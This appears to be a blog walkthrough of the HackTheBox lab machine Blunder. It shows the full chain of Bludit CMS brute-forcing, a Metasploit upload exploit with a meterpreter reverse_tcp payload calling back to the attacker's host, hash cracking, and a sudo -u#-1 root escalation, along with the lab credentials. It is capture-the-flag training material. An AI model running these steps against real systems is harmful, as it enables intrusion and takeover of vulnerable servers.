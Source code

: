 ![](https://cdn.shortpixel.ai/client/q_glossy,ret_img,w_850/https://ethicalhacs.com/wp-content/uploads/2020/07/blunder-hackthebox-banner.jpg)

# Blunder HackTheBox Walkthrough

This is Blunder HackTheBox machine walkthrough. In this walkthrough I will demonstrate you how I successfully exploited this machine and got root flag. Before starting let’s know something about Blunder machine. It is a Linux machine and is given difficulty level low by it’s maker with IP address 10.10.10.191.

Now I will show you step by step procedure how to get root flag in blunder machine.

First of all connect your PC with VPN so that you can get access to the lab and ping the IP 10.10.10.191 to make confirm that you are connected with blunder machine. I started by scanning the IP address 10.10.10.191, so that I could get some hint to start. Nmap, a port scanner gave the following results.

## Scanning The Machine 

`$nmap -sC -sC -oN scan 10.10.10.191`

![](https://cdn.shortpixel.ai/client/q_glossy,ret_img,w_965/https://ethicalhacs.com/wp-content/uploads/2020/07/blunder-hackthebox-nmap-scan1.png)

`$nmap -sC -sV -p- -oN full_scan 10.10.10.191`

![](https://cdn.shortpixel.ai/client/q_glossy,ret_img,w_952/https://ethicalhacs.com/wp-content/uploads/2020/07/blunder-hackthebox-nmap-fullscan.png)

Port 21 and 80 is shown. Apache2 web server is running on port 80. After some enumeration found website is running on Bludit CMS. And the version is 3.9.2 from this URL http://10.10.10.191/bl-kernel/css/bootstrap.min.css?version=3.9.2


As usual my next step is to search if any exploit is available for given CMS. Just googled Bludit CMS 3.9.2 exploit . For more details google CVE-2019-17240. Also searchsploit give this result.

`$searchsploit bludit`

![](https://cdn.shortpixel.ai/client/q_glossy,ret_img,w_1024/https://ethicalhacs.com/wp-content/uploads/2020/07/bludit-CMS-exploit-search-1024x168.png)

`$msfdb run`

`­­msf5>search bludit`

`msf5>show info exploit/linux/http/bludit_upload_images_exec`

![](https://cdn.shortpixel.ai/client/q_glossy,ret_img,w_1024/https://ethicalhacs.com/wp-content/uploads/2020/07/bludit-metasploit-module-search-1024x373.png)


`nikto -h 10.10.10.191`

Got file todo.txt. After reading the content at http://10.10.10.191/todo.txt it appears that fergus is the user. Added it to my note. And started further enumeration.
![](https://cdn.shortpixel.ai/client/q_glossy,ret_img,w_1024/https://ethicalhacs.com/wp-content/uploads/2020/07/blunder-htb-custom-wordlist-create-1024x68.png)
Creating Custom Wordlist
`$cewl -d 3 -m 5 -w custom_wordlist.txt http://10.10.10.191/`

Modify the script at https://rastating.github.io/bludit-brute-force-mitigation-bypass/ as given below. In username use fergus because we want to brute force on user fergus and in fname use the name of custom wordlist which you have created using cewl command. In my case it is custom_wordlist.txt. Save it as poc.py and run it 

![](https://cdn.shortpixel.ai/client/q_glossy,ret_img,w_1024/https://ethicalhacs.com/wp-content/uploads/2020/07/bludit-bruteforce-exploit-poc-1024x597.png)


Cracking Password
`$python poc.py`

![](https://cdn.shortpixel.ai/client/q_glossy,ret_img,w_758/https://ethicalhacs.com/wp-content/uploads/2020/07/merge_from_ofoct-min.jpg)

So we have the credentials fergus : RolandDeschain . It’s time to exploit and get remote shell on our PC.


Getting User Shell
`$ msfdb run`

`msf5 > search bludit`

`msf5 > use exploit/linux/http/bludit_upload_images_exec`

`msf5 exploit(linux/http/bludit_upload_images_exec) > set BLUDITUSER fergus`

`msf5 exploit(linux/http/bludit_upload_images_exec) > set BLUDITPASS RolandDeschain`

`msf5 exploit(linux/http/bludit_upload_images_exec) > set payload`

`php/meterpreter/reverse_tcp`

`msf5 exploit(linux/http/bludit_upload_images_exec) > set LHOST 10.10.15.87`

`msf5 exploit(linux/http/bludit_upload_images_exec) > exploit`

`meterpreter > sysinfo`

`meterpreter > shell`

`$which python`

`$python -c 'import pty;pty.spawn("/bin/bash")'`

`$www-data@blunder:/var/www/bludit-3.9.2/bl-content/tmp$ export TERM=xterm-256color `

![](https://cdn.shortpixel.ai/client/q_glossy,ret_img,w_1024/https://ethicalhacs.com/wp-content/uploads/2020/07/blunder-htb-box-sysinfo-1024x221.png)

So we are in the Blunder HTB machine. Let us grab user flag.  Inside home directory two users hugo and shaun are present. User flag is inside hugo folder. But www-data don’t have permission to read it. Only hugo has permission to read it. Tried $su hugo in case hugo and fergus have same password but login failed possibly due to incorrect password. To access user flag we have to login with hugo. After manual enumeration found a file users.php inside the directory /var/www/bludit-3.9.2/bl-content/databases/.


Got password along with its salt

    Password: bfcc887f62e36ea019e3295aafb8a3885966e265

              Salt: 5dde2887e7aca

Now we have to crack this password. Hash identifier gave it is a sha1 hash.

Identify Type Of Hash

Tried to crack using hashcat and rockyou.txt wordlist but could not crack. So tried https://cmd5.com/ site and successfully cracked the hash.

The password is Password120. So the credential is

Hugo : Password120.

Switch user to hugo

`$su hugo`

`Password: Password120`

![](https://cdn.shortpixel.ai/client/q_glossy,ret_img,w_762/https://ethicalhacs.com/wp-content/uploads/2020/07/blunder-hackthebox-user-flag.png)

`$sudo -u#-1 /bin/bash`


`$cd /root/`

`$cat root.txt`

![](https://cdn.shortpixel.ai/client/q_glossy,ret_img,w_511/https://ethicalhacs.com/wp-content/uploads/2020/07/blunder-htb-root-flag.png)
